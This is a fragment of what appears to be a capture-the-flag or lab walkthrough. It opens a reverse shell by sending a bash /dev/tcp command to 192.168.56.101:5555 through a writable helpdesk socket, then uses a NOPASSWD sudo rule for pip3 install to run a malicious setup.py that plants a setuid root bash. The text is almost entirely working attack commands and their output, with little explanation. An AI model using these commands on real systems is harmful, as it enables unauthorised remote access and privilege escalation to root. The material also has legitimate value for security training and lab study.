 
### Reverse shell via the writable socket
```bash
echo "/bin/bash -i >& /dev/tcp/192.168.56.101/5555 0>&1" | socat - /opt/helpdesk-socket/helpdesk.sock
```

```bash
listening on [any] 5555 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 59514
bash: cannot set terminal process group (676): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ id
id
uid=1001(helpdesk) gid=1001(helpdesk) groups=1001(helpdesk)
```


```bash
sudo -l
```

```bash
User helpdesk may run the following commands on helpdesk:
    (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *
```

```bash
mkdir /tmp/evil && cd /tmp/evil
```

```bash
cat setup.py
```


```bash
# /tmp/evil/setup.py
from setuptools import setup
import os

os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")

setup(
    name="evil",
    version="0.1",
    description="evil package",
    py_modules=[]
)
```

```bash
echo 'from setuptools import setup; import os; os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"); setup(name="evil", version="0.1", description="evil package", py_modules=[])' > /tmp/evil/setup.py
<evil package", py_modules=[])' > /tmp/evil/setup.py
```
